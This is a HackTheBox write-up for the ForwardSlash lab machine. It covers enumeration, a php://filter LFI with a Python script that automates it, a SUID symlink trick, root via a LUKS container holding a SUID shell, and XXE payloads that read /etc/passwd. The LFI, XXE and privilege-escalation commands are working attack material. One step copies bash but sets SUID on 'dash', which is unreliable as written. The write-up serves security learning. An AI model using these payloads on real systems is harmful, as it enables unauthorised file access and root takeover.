

This bos is a Hard level box from HackTheBox with Linux as OS. You need to start with a good enumeration to find the place to inject the payload. You get a LFI, you get a password from it, then you ssh as the initial user. Then you start enumerating the server to find another pass.

The root may envolve some kind of crypto, but I did it in an unintened way with luks container and dash suid.

The auto lfi is in the post.

Hope you enjoy!

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.183
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We add `forwardslash.htb` to /etc/hosts


We try to open it on the browser


### Vhost Fuzzing

Keep in mind that nmap returned a vhost, so possible we should have more, let's use wfuzz to try to retrieve then

```sh
wfuzz -c -u 10.10.10.183 -H "Host: FUZZ.forwardslash.htb" --hh 0,422 -w subdomains-top1million-5000.txt 
```


We found one very interesting, the `backup.forwardslash.htb`

We add it to /etc/hosts


/backup

Ok, a login page


So we create a user in this page


Then we get logged in, and redirected to `welcome.php`


Gobuster, we run gobuster to see if we found more some page

```sh
gobuster dir -u http://backup.forwardslash.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 50
```


Whops, we found a /dev folder, good.

Accessing /dev

We get access denied


### LFI PoC

Sure, let's continue enumerating this host

We found something interesting in the `profilepicture.php`


Seems that it's disabled?! Ok, we send to burp to play arround.

We change GET to POST and pass url as data to see it it reach us


It reach us, but we cannot execute php script in it

Let's try some kind of LFI, giving the files to be read

And it works!


When we try to read some config files, we got an error


How about applying some filters?

```
url=php://filter/convert.base64-encode/resource=/var/www/backup.forwardslash.htb/index.php
```

Yes, this worked


Sure! How I'm a guy that like the things scripted and automated... Let's automate the whole things now!

# Auto LFI

We will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto read LFI Server - ForwardSlash - HackTheBox

import argparse
import requests
import sys
import base64
import re

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Base64 decode things
def b64d(s):
    return base64.b64decode(s).decode()

# First let's create the user
def createLogin():
    print("[+] Let's create an user !! [+]")
    url = "http://backup.forwardslash.htb:80/register.php"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "0x4rt3mis", "password": "123456", "confirm_password": "123456"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] User Created !! [+]")
    
# Just login
def loginUser():
    print("[+] Just logging ! [+]")
    url = "http://backup.forwardslash.htb:80/login.php"
    data = {"username": "0x4rt3mis", "password": "123456"}
    r.post(url, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] User Logged in !!! [+]")

def readFile():
    url = "http://backup.forwardslash.htb:80/profilepicture.php"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    print("[+] Just type exit to exit !!!! [+]")
    prefix = "Reading file: "
    file = ""
    while file != "exit":
        file = input(prefix)
        data = {"url": "php://filter/convert.base64-encode/resource=%s" %file}
        output = r.post(url,headers=headers,data=data,proxies=proxies)
        b64encoded = re.search('</html>\n+.*', output.text).group(0)
        if len(b64encoded) < 9:
            print("[+] File does NOT EXIST !!! Or I can't read it !!! [+]")
        else:
            b64encoded = b64encoded.removeprefix("</html>\n")
            print()
            print(b64d(b64encoded)) 
            print()
    
def main():
    '''Here we call the functions'''
    # Create user
    createLogin()
    # Login
    loginUser()
    # Read file
    readFile()
    
if __name__ == '__main__':
    main()
```

Great. Let's start enumerating the file server

We get the `/var/www/backup.forwardslash.htb/dev/index.php`


And one password in it!!


And just SSH in


# chiv --> pain

Let's start our privilege escalation to become root. First we need to the the pain shell

We found a weird binary on the server with suid enabled

```sh
ls -l /usr/bin/backup
```


We just try to execute it, to see what happens

Just show me a md5?! hash...


After some researching we noticed with ltrace, that the hash is one time


Hummm.... the hash matches with the timestamp current time. So, to get this working, I need to generate a symlink to any file I want to read using the MD5 hash of the current time.

Got from rootflag.

```sh
t="$(date +%H:%M:%S | tr -d '\n' | md5sum | tr -d ' -')"
ln -s /var/backups/config.php.bak /home/chiv/$t
backup
```

The "t" is our time and md5sum it, then is generated a symlink to any file I want then execute then I run backup, and the symlink gives me the output I want

Then we get the password


And su pain


I found this file looking for files owned by pain


And this .bak is very interesting!

# pain --> root

Now, let's become root.

We see some interesting files on the home pain folder


We see our `sudo -l` too


I'm not going to use crypto to make this challenge, my crypto skills are very bad. I'll use the method used by the snowscan to get the root flag. We can open and mount luks containers, we can make a suid dash and put it on the luks, and then execute it.

Create an empty virtual disk

```sh
dd if=/dev/zero of=luksvolume1 bs=1M count=64
```


Format and encrypt with luks, any password

```sh
cryptsetup -vy luksFormat luksvolume1
```


Open the encrypted container

```sh
cryptsetup luksOpen luksvolume1 myluksvol1
```


Create a ext4 filesystem for it

```sh
mkfs.ext4 /dev/mapper/myluksvol1
```


Mount, copy a suid bash to it

```sh
mount /dev/mapper/myluksvol1 /mnt
cp /bin/bash /mnt
chmod u+s /mnt/dash
ls -l /mnt
```


Just copy the container to the server

```sh
scp luksvolume1 pain@10.10.10.183:/tmp
Password: db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704
```


Now, just mount it

```sh
mkdir mnt
sudo /sbin/cryptsetup luksOpen luksvolume1 backup
sudo /bin/mount /dev/mapper/backup ./mnt/
mnt/dash -p
```


# Source Code Analysis

Let's make our source code analysis

```sh
rsync -azP root@10.10.10.183:/var/www/* .
```


In the `profilepictures.php`


First it test if the url data is setted, if it is setted then redirect to api.php, which I'll explain now.


The api.php give a `file_get_contents` on the file we send as url param. That's the way the LFI works. Here we see the message error we got too.

We can see the www-data password too


When I was looking at `dev` folder, we read the `index.php`

And see that if the username is admin, the response is other than error 403.


This page will be displayed


We can see if there is a username `admin`

We create a user admin


We login as admin


And access `/dev`


The page is different as expected

We send the request to the server


And get it in Burp. We saw on the code that it must be GET param to be renderized by the server, and it's double url encoded.

So it's probably vulnerable to XEE, we adapt it with the payload in [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

```xml
<!DOCTYPE api [
  <!ELEMENT api ANY>
  <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<api>
    <request>&file;</request>
</api>
```

And we get the files from there


We can get the same way as we did before, with base64

```xml
<!DOCTYPE api [
  <!ELEMENT api ANY>
  <!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
]>
<api>
    <request>&file;</request>
</api>
```


